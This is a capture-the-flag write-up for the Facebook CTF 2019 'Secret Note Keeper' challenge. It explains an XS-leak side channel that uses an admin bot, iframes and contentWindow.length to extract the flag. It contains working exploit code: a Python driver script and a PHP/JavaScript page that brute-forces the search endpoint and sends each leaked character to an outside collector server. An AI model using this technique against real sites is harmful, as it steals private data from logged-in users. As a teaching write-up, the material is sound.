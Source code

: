 ```yaml
---
comments: true
title: Writeup Secret Note Keeper (xs-leaks) Facebook CTF 2019
date: 2019-07-03 00:00:00 +0700
category:
- ctf
tags:
- ctf
private: false

---
```

### Writeup Secret Note Keeper (xs-leaks) Facebook CTF 2019

![](/uploads/fbctf.PNG)

#### English

Were given a website that was able to create note, report note and have a function to search note, the search note function will return each note using an iframe tag, our task is to extract the flag from administrator note.

we found that the report function is sending this json data 

    {"title":"My note","body":"x","link":"you_note_link"}

and we was able to change the link parameter into any resource that we want the admin to visit I try to send my webserver into the link parameter 

    {"title":"My note","body":"x","link":"https://myserver:1337"}

after couple seconds get request from someone that i believe the administrator from secret keeper note website with user agent _Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/74.0.3729.169 Safari/537.36._

since the administrator open our url using an **HeadlessChrome** we are able to execute any javascript on behalf as administrator but the thing is how we are able to extract the sensitive information from secret keeper note ? here is come the **xs-leaks power** to extract data from secret keeper note by abusing the search function using side channel attack.

as we know the search function is not implemented **X-Frame-Options** so we are able to frame the url from any origin and the parameter to search a note is using GET parameters so we can specify what query to extract from the GET parameters, search endpoint is look like this [http://challenges.fbctf.com:8082/search?query=](http://challenges.fbctf.com:8082/search?query= "http://challenges.fbctf.com:8082/search?query=")YOUR_QUERY if we use an iframe to secret note keeper from an administrator browser it will use the administrator cookies to open the frame right with an xs-leaks we are able to detect if our search result contains iframe or not using javascript **contentWindow.length** and based on that we are able to build an javascript payload to extract secret from administrator.

I create script to automate the process to extract flag and using hosted requestb.in to grab the response.

    # xs-leaks.py
    import hashlib
    import time
    import itertools
    import string
    import requests
    import os
    import random
    
    def crack(target, size=1):
        for xs in itertools.product("0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ", repeat=size):
            pw = ''.join(xs)
    	if target == hashlib.md5(pw).hexdigest()[:5]:
                return pw
        return crack(target, size+1)
    
    req = requests.session()
    creds = random.random()
    req.post("http://challenges3.fbctf.com:8082/login",data={"username":str(creds),"password":str(creds)})
    exploit_url ="http://49d351c5.ngrok.io/xs-leaks.php?1={}"
    flag = "fb"
    
    while(1):
    	expl_url = exploit_url.format(flag).replace("&lt;","<")
    	quest = req.get("http://challenges3.fbctf.com:8082/report_bugs").text.split("proof of work for ")[1].split(" (proof of work is first 5")[0]
    	pow = crack(quest)
    	req.post("http://challenges3.fbctf.com:8082/report_bugs",data={"title":flag,"body":"x","link":expl_url,"pow_sol":pow}).text
    	os.system("sleep 5")
    	tmp  = req.get("http://35.247.145.15:8000/wrymemwr?inspect").text.split("query=")[1]
            tmpx = tmp[:len(flag)+1]
    
    	if(tmpx[len(tmpx)-1] != "<"):
                    flag = tmpx
    
    	print "Current Flag: " + flag

#### xs-leaks.py explaination

* login using random credentials
* sovling the captcha using crack function ( this is added by facebook team in the middle of ctf after the bot died multiple times because of everyone send tons of request to the bot )
* report bug into secret note keeper with exploit url (xs-leaks.php)
* sleep 5 ( wait the bot to response )
* lookup the requestb.in if the administrator already respond and extract the data
* print current flag

Another script to make this exploit complete is xs-leaks.php

    <!-- xs-leaks.php -->
    <head><script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script></head>
    <body>
      <script>
    	var chars = "_abcdefghijklmnopqrstuvwxyz{}1234567890|<@$^*()!>";
            function measureUrl(url, callback) {
                var iframe = $('<iframe />');
                iframe.attr('src', url);
                iframe.css('display', 'none');
                iframe.on('load', function () {
                    if(callback) callback(url, this.contentWindow.length);
                });
                $('body').append(iframe);
            }
            var flag = '<?=$_GET[1]?>';
            for (var i = 0; i < chars.length; i++) {
                var u = 'http://challenges.fbctf.com:8082/search?query=' + flag+chars.charAt(i);
                measureUrl(u, function(url, res) {
                   if (res!=0) {
                       measureUrl('http://35.247.145.15:8000/wrymemwr?a=' + url);
                   }
                });
            }
      </script>
    </body>
    

#### xs-leaks.php explaination

* loads jquery
* use flag variable from $_GET\[1\]
* bruteforce using chars defined with search query from an iframe ( if contentWindows.lenght != 0 it means the character is found )
* if the javascript detect valid character send it into self hosted requestb.in ( xs-leaks.py will extract the character and append current flag until the last character )

#### Terminal explains more loud

![](/uploads/xs-leaks.PNG)

Automated solve: [https://asciinema.org/a/249560](https://asciinema.org/a/249560 "https://asciinema.org/a/249560")